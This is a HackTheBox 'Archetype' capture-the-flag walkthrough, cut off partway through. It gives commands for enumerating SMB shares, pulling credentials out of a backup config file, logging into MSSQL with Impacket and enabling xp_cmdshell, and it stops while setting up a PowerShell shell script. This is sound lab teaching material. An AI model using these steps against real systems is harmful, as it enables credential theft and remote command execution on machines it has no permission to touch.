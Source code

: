 ```yaml
---
layout: post
title: HackTheBox Write-up &mdash; Archetype
---
```


I am going to have a quick night of attempting the "Starting Point" machines in HackTheBox.  These machines I didn't see when I first started using HackTheBox, but they seem to be valuable in understanding the usual layout of these kinds of machines.  I think they are of a common author, too.  And I do believe this particular machine is made by the person who made HackTheBox.  So with all that in mind, here goes!

---

# The Short Version
<ol>
<li>Enumerate ports via <code class="highlighter-rouge">nmap -sC -sV 10.10.10.27</code>.  Optionally add the <code class="highlighter-rouge">archetype</code> machine to your <code class="highlighter-rouge">/etc/hosts</code> file for a nicer way of referencing this machine.</li>
<li>Run <code class="highlighter-rouge">smbclient -N -L \\\\10.10.10.27\\</code> to list the directories in the samba storage.  Notice <code class="highlighter-rouge">backups</code> is open access;</li>
<li>Run <code class="highlighter-rouge">smbclient -N \\\\10.10.10.27\\backups</code> to peek inside the <code class="highlighter-rouge">backups</code> directory.  Notice the <code class="highlighter-rouge">prod.dtsConfig</code> file inside;</li>
<li>Get the <code class="highlighter-rouge">prod.dtsConfig</code> by running <code class="highlighter-rouge">get prod.dtsConfig</code> in the samba client;</li>
<li>In your own shell, now run <code class="highlighter-rouge">cat prod.dtsConfig | awk -F'User ID=' '{print $2}' | awk -F';' '{print $1}' | tr -d " \t\n\r"</code> to get the username, and <code class="highlighter-rouge">cat prod.dtsConfig | awk -F'Password=' '{print $2}' | awk -F';' '{print $1}' | tr -d " \t\n\r"</code> to get the password;</li>
<li>Ensure you have Impacket's tools: <code class="highlighter-rouge">git clone https://github.com/SecureAuthCorp/impacket</code>;</li>
<li>We can access the <code class="highlighter-rouge">mssql</code> server using Impacket's <code class="highlighter-rouge">mssqlclient</code> tool: <code class="highlighter-rouge">python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth</code>.  Notice here the use of the username from two steps ago.  When prompted, enter the password obtained from two steps ago;</li>
<li>
Now that you are logged in as <code class="highlighter-rouge">sql_svc</code>, we can run the following series of SQL commands to access the command shell:
<div class="language-sql highlighter-rouge"><div class="highlight"><pre class="highlight"><code>
<span class="n">sp_configure</span> <span class="s1">'show advanced options'</span><span class="p">,</span> <span class="s1">'1'</span>
<span class="n">RECONFIGURE</span>
<span class="n">sp_configure</span> <span class="s1">'xp_cmdshell'</span><span class="p">,</span> <span class="s1">'1'</span>
<span class="n">RECONFIGURE</span>
</code></pre></div></div>
</li>
<li>We need to note down your <code class="highlighter-rouge">tun0</code> IP.  On your computer, run: <code class="highlighter-rouge">ifconfig | grep -A 1 'tun0' | tail -1 | grep -o -P 'inet(.{0,15})' | grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])'</code>;</li>
<li>
We need to put the following into a <code class="highlighter-rouge">shell.ps1</code> file on your computer: